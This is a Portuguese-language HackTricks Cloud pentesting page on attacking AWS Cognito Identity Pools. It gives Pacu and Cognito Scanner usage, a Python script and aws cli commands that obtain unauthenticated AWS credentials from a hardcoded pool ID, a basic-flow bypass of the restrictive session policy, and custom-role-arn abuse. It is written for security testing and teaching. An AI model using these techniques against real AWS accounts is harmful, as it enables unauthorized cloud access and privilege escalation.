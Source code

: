 # Pools de Identidade Cognito

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **versão mais recente do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha [**produtos oficiais PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo Telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no GitHub.

</details>

## Informações Básicas

Com um pool de identidade, seus usuários podem **obter credenciais temporárias da AWS para acessar serviços da AWS**, como Amazon S3 e DynamoDB. Os pools de identidade suportam usuários convidados anônimos, bem como os seguintes provedores de identidade que você pode usar para autenticar usuários para os pools de identidade:

* Pools de usuários do Amazon Cognito
* Login social com Facebook, Google, Login com Amazon e Login com Apple
* OpenID Connect (OIDC) provedores
* Provedores de identidade SAML
* Identidades autenticadas pelo desenvolvedor

### Cognito Sync

Para gerar sessões de Pool de Identidade, você primeiro precisa **gerar um ID de Identidade**. Este ID de Identidade é a **identificação da sessão desse usuário**. Essas identificações podem ter até 20 conjuntos de dados que podem armazenar até 1MB de pares chave-valor.

Isso é **útil para manter informações de um usuário** (que sempre usará o mesmo ID de Identidade).

Além disso, o serviço **cognito-sync** é o serviço que permite **gerenciar e sincronizar essas informações** (nos conjuntos de dados, enviando informações em fluxos e mensagens SNS...).

### Módulos Pacu para pentesting e enumeração

O [Pacu](https://github.com/RhinoSecurityLabs/pacu), o framework de exploração da AWS, agora inclui os módulos "cognito__enum" e "cognito__attack" que automatizam a enumeração de todos os ativos do Cognito em uma conta e sinalizam configurações fracas, atributos de usuário usados para controle de acesso, etc., e também automatizam a criação de usuários (incluindo suporte a MFA) e escalonamento de privilégios com base em atributos personalizados modificáveis, credenciais de pool de identidade utilizáveis, funções assumíveis em tokens de ID, etc.

Para uma descrição das funções dos módulos, consulte a parte 2 da [postagem no blog](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2). Para instruções de instalação, consulte a página principal do [Pacu](https://github.com/RhinoSecurityLabs/pacu).

### Uso

Exemplo de uso do cognito__attack para tentar criar um usuário e todos os vetores de escalonamento de privilégios em um determinado pool de identidade e cliente de pool de usuários:
```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```
Uso de exemplo do cognito__enum para coletar todos os grupos de usuários, clientes de grupos de usuários, pools de identidade, usuários, etc. visíveis na conta AWS atual:
```bash
Pacu (new:test) > run cognito__enum
```
### Ferramenta para pentesting

[Cognito Scanner](https://github.com/padok-team/cognito-scanner) é uma ferramenta CLI em python que implementa diferentes ataques no Cognito, incluindo criação indesejada de contas e escalonamento de pool de identidade.

#### Instalação
```bash
$ pip install cognito-scanner
```
#### Uso

#### Description
```bash
$ cognito-scanner --help
```
Para mais informações, acesse https://github.com/padok-team/cognito-scanner

## Acessando Funções IAM

### Não autenticado

A única coisa que um atacante precisa saber para **obter credenciais da AWS** em um aplicativo Cognito como usuário não autenticado é o **ID do Identity Pool**, e esse **ID deve ser codificado** no aplicativo web/mobile para que ele o utilize. Um ID se parece com isso: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (não é possível forçar a entrada por tentativa e erro).

{% hint style="success" %}
A **função IAM Cognito não autenticada criada via é chamada** por padrão de `Cognito_<Nome do Identity Pool>Unauth_Role`
{% endhint %}

Se você encontrar um ID do Identity Pool codificado e ele permitir usuários não autenticados, você pode obter credenciais da AWS com:
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
Ou você pode usar os seguintes comandos **aws cli**:
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
Observe que por padrão, um usuário cognito **não autenticado NÃO PODE ter nenhuma permissão, mesmo que tenha sido atribuída por meio de uma política**. Verifique a seguinte seção.
{% endhint %}

### Fluxo de autenticação aprimorado vs básico

A seção anterior seguiu o **fluxo de autenticação aprimorado padrão**. Esse fluxo define uma política de sessão **restritiva** [**política de sessão**](../../aws-basic-information/#session-policies) para a sessão do papel IAM gerado. Essa política permitirá apenas que a sessão [**use os serviços desta lista**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services) (mesmo que o papel tenha acesso a outros serviços).

No entanto, há uma maneira de contornar isso, se o **pool de identidades tiver o "Fluxo Básico (Clássico)" habilitado**, o usuário poderá obter uma sessão usando esse fluxo que **não terá essa política de sessão restritiva**.

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
Se você receber esse **erro**, é porque o **fluxo básico não está habilitado (padrão)**

`Ocorreu um erro (InvalidParameterException) ao chamar a operação GetOpenIdToken: O fluxo básico (clássico) não está habilitado, por favor, use o fluxo aprimorado.`
{% endhint %}

Tendo um conjunto de credenciais IAM, você deve verificar [quais acessos você possui](../../#whoami) e tentar [elevar privilégios](../../aws-privilege-escalation/).

### Autenticado

{% hint style="info" %}
Lembre-se de que **usuários autenticados** provavelmente terão **permissões diferentes**, então, se você puder **se inscrever no aplicativo**, tente fazer isso e obter as novas credenciais.
{% endhint %}

Também pode haver **funções** disponíveis para **usuários autenticados acessando o Identity Pool**.

Para isso, você pode precisar ter acesso ao **provedor de identidade**. Se for um **Cognito User Pool**, talvez você possa abusar do comportamento padrão e **criar um novo usuário você mesmo**.

{% hint style="success" %}
A **função IAM Cognito autenticada criada via é chamada** por padrão de `Cognito_<Nome do Identity Pool>Auth_Role`
{% endhint %}

De qualquer forma, o **exemplo a seguir** pressupõe que você já tenha feito login em um **Cognito User Pool** usado para acessar o Identity Pool (não se esqueça de que outros tipos de provedores de identidade também podem ser configurados).

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;região>.amazonaws.com/&#x3C;SEU_USER_POOL_ID>=&#x3C;ID_TOKEN>

# Obtenha o identity_id da resposta do comando anterior
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;região>.amazonaws.com/&#x3C;SEU_USER_POOL_ID>=&#x3C;ID_TOKEN>


# No IdToken, você pode encontrar as funções às quais um usuário tem acesso por causa dos Grupos do User Pool
# Use --custom-role-arn para obter credenciais para uma função específica
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;região>.amazonaws.com/&#x3C;SEU_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
É possível **configurar diferentes funções IAM dependendo do provedor de identidade** pelo qual o usuário está sendo autenticado ou até mesmo apenas **no usuário** (usando claims). Portanto, se você tiver acesso a diferentes usuários por meio do mesmo ou de diferentes provedores, pode valer a pena **fazer login e acessar as funções IAM de todos eles**.
{% endhint %}

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você quiser ver sua **empresa anunciada no HackTricks** ou se quiser acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>
